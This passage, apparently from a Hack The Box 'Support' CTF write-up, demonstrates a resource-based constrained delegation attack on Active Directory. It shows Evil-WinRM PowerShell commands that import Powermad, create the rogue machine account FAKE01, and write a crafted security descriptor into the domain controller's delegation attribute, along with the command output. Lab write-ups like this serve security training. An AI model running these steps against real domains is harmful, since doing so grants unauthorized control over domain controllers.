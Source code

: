To perform the attack we first import powermad
```
*Evil-WinRM* PS C:\programdata> import-module .\Powermad.ps1
```
Let's now create a new computer object for our computer `FAKE01`
```
Evil-WinRM* PS C:\programdata> New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose                                              Verbose: [+] Domain Controller = dc.support.htb                                                  Verbose: [+] Domain = support.htb                                                                Verbose: [+] SAMAccountName = FAKE01$                                                            
Verbose: [+] Distinguished Name = CN=FAKE01,CN=Computers,DC=support,DC=htb                       [+] Machine account FAKE01 added                        
```
Checking if the computer got created and noting its SID:
```
*Evil-WinRM* PS C:\programdata> Get-DomainComputer fake01


pwdlastset             : 8/4/2025 3:03:57 AM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=FAKE01,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : FAKE01
objectsid              : S-1-5-21-1677581083-3380853377-188903654-5603
samaccountname         : FAKE01$
localpolicyflags       : 0
codepage               : 0
samaccounttype         : MACHINE_ACCOUNT
accountexpires         : NEVER
countrycode            : 0
whenchanged            : 8/4/2025 10:03:57 AM
instancetype           : 4
usncreated             : 86165
objectguid             : 086f9b7d-ea30-4d67-9124-8a5399627964
lastlogon              : 12/31/1600 4:00:00 PM
lastlogoff             : 12/31/1600 4:00:00 PM
objectcategory         : CN=Computer,CN=Schema,CN=Configuration,DC=support,DC=htb
dscorepropagationdata  : 1/1/1601 12:00:00 AM
serviceprincipalname   : {RestrictedKrbHost/FAKE01, HOST/FAKE01, RestrictedKrbHost/FAKE01.support.htb, HOST/FAKE01.support.htb}
ms-ds-creatorsid       : {1, 5, 0, 0...}
badpwdcount            : 0
cn                     : FAKE01
useraccountcontrol     : WORKSTATION_TRUST_ACCOUNT
whencreated            : 8/4/2025 10:03:57 AM
primarygroupid         : 515
iscriticalsystemobject : False
usnchanged             : 86167
dnshostname            : FAKE01.support.htb
```
Create a new raw security descriptor for the `FAKE01` computer principal:
```
*Evil-WinRM* PS C:\programdata> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5603)"
*Evil-WinRM* PS C:\programdata> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\programdata> $SD.GetBinaryForm($SDBytes, 0)
```
Now we apply the security descriptor bytes to `dc`:
```
*Evil-WinRM* PS C:\programdata> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
Verbose: [Get-DomainSearcher] search base: LDAP://DC=support,DC=htb
```